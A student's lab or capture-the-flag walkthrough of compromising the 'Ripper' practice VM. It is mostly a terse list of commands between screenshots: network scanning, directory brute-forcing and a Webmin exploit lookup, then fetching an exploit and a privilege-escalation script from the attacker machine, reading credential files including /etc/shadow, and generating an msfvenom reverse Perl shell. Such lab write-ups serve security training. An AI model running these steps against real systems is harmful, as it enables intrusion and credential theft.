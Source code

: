 ﻿# Ripper 192.168.56.111
## Andrea Zonnekus 18758119

netdiscover -i eth0

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.001.png)

sudo nmap -p- -sV -O 192.168.56.111 -oN host

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.002.png)

sudo gobuster dir -u 192.168.2.9 -w /usr/share/dirb/wordlists/big.txt -o http\_enum -x php,html,js,txt,aspx

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.003.png)



<https://ripper-min:10000/>

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.004.png)

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.005.png)

nmap -sV -T4 -p 10000 192.168.56.111

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.006.png)

searchsploit webmin

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.007.png)

searchsploit -m /usr/share/exploitdb/exploits/linux/webapps/47293.sh

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.008.png)

sudo gobuster dir fuzz -u 192.168.56.111 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.009.png)

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.010.png)

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.011.png)

ssh <ripper@192.168.56.111>

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.012.png)

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.013.png)

touch tst.txt

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.014.png)

python -m http.server 80

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.015.png)

wget 192.168.56.101/les.sh

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.016.png)

./les.sh

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.017.png)

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.018.png)

wget 192.168.56.101/exploit.c

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.019.png)

sadly no clang, gcc or cc makes this not work

use guide because don’t know anymore

ls

cat secret.file

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.020.png)

su cubes

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.021.png)

ls webmin/backup -lah

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.022.png)

cat webmin/backup/miniser.log

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.023.png)

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.024.png)

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.025.png)

cat /etc/pam.d/common-password

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.026.png)

msfvenom -p cmd/unix/reverse\_perl LHOST=192.168.56.101 LPORT=4444 -o shell.pl

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.027.png)

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.028.png)

go to Command Shell

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.029.png)



cat flag.txt

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.030.png)

cat /etc/shadow

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.031.png)

![](ripper_steps/Aspose.Words.37415f79-ccba-486b-9eba-3deb0bf2aa7b.032.png)
